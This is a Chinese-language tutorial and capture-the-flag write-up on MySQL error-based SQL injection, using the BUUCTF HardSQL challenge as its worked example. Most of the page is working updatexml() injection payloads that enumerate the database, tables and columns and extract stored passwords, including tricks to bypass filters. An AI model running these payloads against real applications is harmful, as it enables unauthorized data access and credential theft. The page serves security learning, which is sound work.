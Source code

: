 ```yaml
---
title: 报错注入
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - inject
    - sql
description: sql注入--报错注入
abbrlink: 1189e02e
tags:
---
```


# 报错注入

当加入```'```发现有开启报错，但是union等被过滤时候，考虑报错注入

## 常用函数
```sql
updatexml()，extractvalue()，floor() ,exp() 
```

### 报错原理简述
> （1）updatexml使用时，当xpath_string格式出现错误，mysql则会爆出xpath语法错误
例如： ```updatexml(1,concat(0x7e,version(),0x7e),1)```，由于0x7e是~，利用concat()函数，构造不符合xpath语法格式的字符串，从而产生报错。

> ```concat()```被过滤时候，可以使用```make_set()```函数
```sql
1 and updatexml(1,make_set(3,'~', (user()) ),1)#
```

## 例题

> 来自buuctf上面的[极客大挑战 2019]HardSQL

这题有开启报错信息，利用```()```绕过空格的过滤，利用```updatexml()```函数进行报错注入

查询版本号
```sql
1'or(updatexml(1,concat(0x7e,version(),0x7e),1))%23
```
查询数据库名
```sql
1'or(updatexml(1,concat(0x7e,database(),0x7e),1))%23
```
查询表名
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like(database())),0x7e),1))%23
```
查询字段名
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where(table_name)like('H4rDsq1')),0x7e),1))%23
```
查询数据
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat('~',password))from(H4rDsq1)),0x7e),1))%23
```

**注意：因为extractvalue和updatexml只显示32位字符，使用left和right配合进行查询**
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat((right(left(password,30),30))))from(H4rDsq1)),0x7e),1))%23
```
```sql
1'or(updatexml(1,concat(0x7e,(select(group_concat((right(left(password,50),30))))from(H4rDsq1)),0x7e),1))%23
```

参考来自：[https://blog.csdn.net/weixin_43818995/article/details/104338002](https://blog.csdn.net/weixin_43818995/article/details/104338002)




